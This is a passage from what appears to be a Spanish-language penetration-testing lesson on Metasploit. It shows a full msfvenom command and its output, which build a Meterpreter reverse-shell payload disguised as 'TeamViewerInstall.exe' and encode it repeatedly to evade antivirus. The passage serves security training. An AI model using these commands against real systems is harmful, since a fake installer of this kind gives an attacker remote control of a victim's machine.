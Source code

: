 ```bash
Encontrados 1 codificadores compatibles
Intentando codificar la carga útil con 1 iteraciones de x86/shikata_ga_nai
x86/shikata_ga_nai tuvo éxito con un tamaño de 368 (iteración=0)
x86/shikata_ga_nai elegido con tamaño final 368
Tamaño de la carga útil: 368 bytes
Tamaño final del archivo exe: 73802 bytes
Guardado como: TeamViewerInstall.exe
```

Esto generará una carga útil con el formato exe, llamada **TeamViewerInstall.exe**, que está destinada a funcionar en procesadores de arquitectura x86 para la plataforma Windows, con una carga útil oculta de Meterpreter reverse\_tcp, codificada una vez con el esquema **Shikata Ga Nai**. Tomemos el resultado y subámoslo a **VirusTotal**.

<figure><img src="../../.gitbook/assets/S8_SS01.png" alt=""><figcaption></figcaption></figure>

Una mejor opción sería intentar ejecutarlo a través de múltiples iteraciones del mismo esquema de codificación:

#### Ejemplo de Múltiples Iteraciones

```plaintext
sherlock28@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

```bash
Encontrados 1 codificadores compatibles
Intentando codificar la carga útil con 10 iteraciones de x86/shikata_ga_nai
x86/shikata_ga_nai tuvo éxito con un tamaño de 368 (iteración=0)
x86/shikata_ga_nai tuvo éxito con un tamaño de 395 (iteración=1)
x86/shikata_ga_nai tuvo éxito con un tamaño de 422 (iteración=2)
x86/shikata_ga_nai tuvo éxito con un tamaño de 449 (iteración=3)
x86/shikata_ga_nai tuvo éxito con un tamaño de 476 (iteración=4)
x86/shikata_ga_nai tuvo éxito con un tamaño de 503 (iteración=5)
x86/shikata_ga_nai tuvo éxito con un tamaño de 530 (iteración=6)
x86/shikata_ga_nai tuvo éxito con un tamaño de 557 (iteración=7)
x86/shikata_ga_nai tuvo éxito con un tamaño de 584 (iteración=8)
x86/shikata_ga_nai tuvo éxito con un tamaño de 611 (iteración=9)
x86/shikata_ga_nai elegido con tamaño final 611
Tamaño de la carga útil: 611 bytes
Tamaño final del archivo exe: 73802 bytes
Error: Permiso denegado @ rb_sysopen - /root/Desktop/TeamViewerInstall.exe
```
